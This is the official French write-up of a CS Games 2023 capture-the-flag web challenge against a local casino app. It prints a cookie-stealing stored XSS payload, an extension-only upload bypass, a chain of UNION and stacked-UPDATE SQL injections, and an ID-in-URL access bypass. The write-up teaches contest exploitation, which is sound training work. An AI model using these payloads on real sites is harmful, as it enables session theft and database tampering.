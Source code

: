 # Correction officielle du challenge 1 des CS Games 2023

Voici la correction officielle, pensez à tryhard avant de la lire !

# Flag 1 : XSS injection

Code d'affichage des reviews. On peut injecter du code directement.

```html
<div class="d-flex flex-column">
    <h3 class="mt-2"><%-review.username %></h3>
    <p><%-review.text %></p>
    <p class="mt-auto">
        le <%-review.date.getDate() %> / <%-review.date.getMonth() %> / <%-review.date.getFullYear() %>
    </p>
</div>
```

On peut modifier la fonction qui envoie une review pour envoyer le token de l'administrateur.

```html
<script>
    console.log(document.cookie);
    fetch("/api/user/review", {
        method: "POST",
        headers: {
            Accept: "application/json, text/plain, */*",
            "Content-Type": "application/json",
        },
        body: JSON.stringify({
            review: document.cookie,
        }),
    });
</script>
```

Quand un utilisateur visitera le site, il y créra une review avec comme texte son cookie, pas discret mais efficace ! En attendant un peu, l'administrateur ira sur le site. Une fois le cookie affiché. On ajoute le cookie dans notre navigateur. Allons dans les outils pour développeurs, lancer dans la console :

```js
document.cookie = "AUTH_COOKIE= le cookie volé";
```

Actualisons la page, et on est connecté en administrateur !
Allons sur la page du profil, en utilisant le nom de l'administrateur, on trouve le flag : `flag{frank_catton}`

On peut aussi utiliser une redirection vers un serveur qui nous appartient. Ou encore forcer la clé du token qui est `azerty`. On forge ensuite un jeton avec le username 'Admin'.

# Flag 2 : File upload et SQL injection

## Upload du fichier de configuration

La test de l'extention de l'image de la photo de profil est le suivant :

```js
    if (path.extname(req.file.originalname).toLowerCase() === ".png") {
```

On peut outrepasser le test en changeant l'extension de notre fichier en ".png" ! En effet le controle est seulement sur l'extension et non le contenu ! on peut donc upload n'importe quel type de fichier.

## Mise à jour de la configuration

Connecté en administrateur sur l'onglet des horaires, on peut faire une injection SQL avec le champ `week`.

Voici une liste de requêtes pour récupérer des informations :

```SQL
0' UNION SELECT username FROM users WHERE '1'='1
-- http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT table_schema FROM information_schema.tables WHERE '1'='1
-- erreur sur le nombre de colonnes, une injection est possible
-- NB : information_schema.tables est une table qui regroupe toutes les tables possibles, elle est toujours présente

0' UNION SELECT table_schema, table_name, table_name, table_name, table_name, table_name FROM information_schema.tables WHERE '1'='1
--  http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT table_schema, table_name,table_name,table_name,table_name,table_name FROM information_schema.tables WHERE '1'='1
-- On ajoute des colonnes jusqu'à ne plus avoir d'erreur, ici c'est 6 !
-- On trouve les tables avec le schema ctf1, c'est surement celles qui nous intéressent !

0' UNION SELECT table_schema, table_name, COLUMN_NAME, table_name, table_name, table_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'config
-- http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT table_schema, table_name,COLUMN_NAME,table_name,table_name,table_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'config
-- On récupère les colonnes de la table `config`

0' UNION SELECT config_id, attribute, value, value, value, value FROM config WHERE '1'='1
-- http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT config_id, attribute, value, value, value, value FROM config WHERE '1'='1
-- On trouve la ligne slots_config, la valeur correspond a un nom de fichier : `/slots_config.conf` mettons le à jour !
-- Si on regarde le chemin de notre photo de profil, il est a http://localhost:3000/public/slots_config.conf.png

0' UNION SELECT config_id, attribute, value, value, value, value FROM config WHERE '1'='1'; UPDATE config SET value = '/public/slots_config.conf.png' WHERE attribute='slots_config
-- http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT config_id, attribute, value, value, value, value FROM config WHERE '1'='1'; UPDATE config SET value = '/public/slots_config.conf.png' WHERE attribute='slots_config
-- l'affichage est complètement détruit car on fait 2 requetes, mais on peut voir qu'on a mit a jour une ligne
-- On relance la requete précédente pour voir les résultats... c'est à jour !
-- On peut utiliser le bouton pour voir si le logiciel est à jour, on trouve le flag : `flag{#N1ce:PicTure}`
```

# Flag 3 : Bruteforce
Le numéro de série est le hash de la position de la machine dans le casino. Donc hash(position) = numéro de série
Trouvons la liste des machines et leur position. On réutilise notre injection pour la table des slots

```SQL
0' UNION SELECT table_schema, table_name, COLUMN_NAME, table_name, table_name, table_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'slots
-- http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT table_schema, table_name, COLUMN_NAME, table_name, table_name, table_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'slots
-- On récupère les colonnes de la table `slots`

0' UNION SELECT position, balance, balance, balance, balance, balance FROM slots WHERE '1'='1
-- http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT position, balance, balance, balance, balance, balance FROM slots WHERE '1'='1
-- On récupère la liste des position

0' UNION SELECT config_id, attribute, value, value, value, value FROM config WHERE '1'='1
-- http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT config_id, attribute, value, value, value, value FROM config WHERE '1'='1
-- On trouve la ligne serial_number_derivation, qui correspond a la fonction pour hashage utilisée pour dériver le numéro de série
```

Pour chaque position, on calcule son SHA256, on obtien 1 seul match : 6497542625
Allons jouer ! Son joue à une machine, on a un url de la forme : `/slots/:id`. On change l'id de la machine dans l'url : http://localhost:3000/slots/6497542625

On joue et on obtien le flag : flag{WP_D@ny!}

La vérification étant juste basée sur l'id de la page, il est même possible de trouver le flag 3 en premier en allant sur la bonne page.